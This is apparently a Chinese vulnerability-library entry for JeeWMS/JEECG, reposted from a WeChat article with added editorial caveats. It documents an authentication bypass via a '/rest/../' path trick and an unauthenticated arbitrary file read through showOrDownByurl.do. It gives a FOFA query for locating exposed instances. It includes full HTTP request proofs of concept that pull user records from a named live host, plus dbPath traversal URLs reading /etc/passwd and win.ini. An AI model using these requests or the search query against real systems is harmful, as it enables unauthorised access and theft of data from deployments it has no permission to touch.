








# JeeWMS/JEECG组件 rest路径鉴权绕过及showOrDownByurl读取

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：JeeWMS/JEECG组件；rest路径鉴权绕过及showOrDownByurl读取
- 版本、配置及部署条件：全版本无依据；context-path与路径归一化条件
- 认证与权限前提：前台绕过声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 双漏洞分实体；鉴权绕过可关联86–90但不把SQLi全部视同根因
- 公开测试域/会话及用户字段应示例化，需客户端原样路径说明
- 系统配置根+dbPath有清晰读取思路，具体代码仅图；无修复版本
- FOFA元数据残缺、去站点推广；全版本需固定commit支持

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ylOuWc8elD2EtM-1LiJp9g)

**1、描述**

  

jeewms 是由灵鹿谷科技主导的开源项目，WMS 在经过多家公司上线运行后，为了降低物流仓储企业的信息化成本，决定全面开源，是基于 JAVA 的 web 后台。经过代码审计发现其存在权限绕过漏洞和未授权任意文件读取漏洞。

  

  

  

  

  

**2、影响范围**

  

JEEWMS 全版本  

  

  

  

  

  

**3、漏洞复现**

  

fofa 语句：body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body=" 仓 "

  

  

  

  

  

  

演示一下

一、权限绕过漏洞

漏洞处于代码 org.jeecgframework.core.interceptors.AuthInterceptor 处，

jeewms 使用 JAVA 拦截器做的权限控制，存在被绕过漏洞，代码如下：



可以看到第一个 if 判断中只要 0-5 个字符串是 rest / 就返回 true，意思是无需认证

由于是测试站放在站群上，因此 POC 是 / wmstest/rest/../ 正常 / rest/../ 即可

**正常数据包**：



**删除 Cookie 数据包**



**使用 POC 数据包**





**可以看到已经绕过登录获取到数据，数据包:**

**POC：  
**

```http
POST /wmstest/rest/../BiController.do?dayCount&reportType=line HTTP/1.1
Host: www.jeewms.cn
Content-Length: 0
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
X-Requested-With: XMLHttpRequest
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/BiController.do?homebi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

```http
POST /wmstest/rest/../userController.do?datagrid&field=id,userName,realName,userOrgList.tsDepart.departname,userKey,createBy,createDate,updateBy,updateDate,status, HTTP/1.1
Host: www.jeewms.cn
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 Edg/85.0.564.63
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.jeewms.cn
Referer: http://www.jeewms.cn/wmstest/userController.do?user&clickFunctionId=8a8ab0b246dc81120146dc8180df001f
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

page=1&rows=10&sort=createDate%2CuserName&order=asc%2Cdesc
```

> 请求长度说明：原资料 Content-Length 为 58；保留原始标头；其数值未据实际请求体重新计算或验证。

二、未授权任意文件读取漏洞  

漏洞处于 org.jeecgframework.web.system.controller.core.SystemController

代码如下：  



可以看到 dbpath 可被控制，最终读取路径为：系统配置路径 + dbpath

这样的读取方式可被../../ 控制路径，造成任意文件读取，同时该接口未做权限验证，可未授权任意文件读取。

POC：

```
http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini 
```



```
http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd 
```



公众号

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  


漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
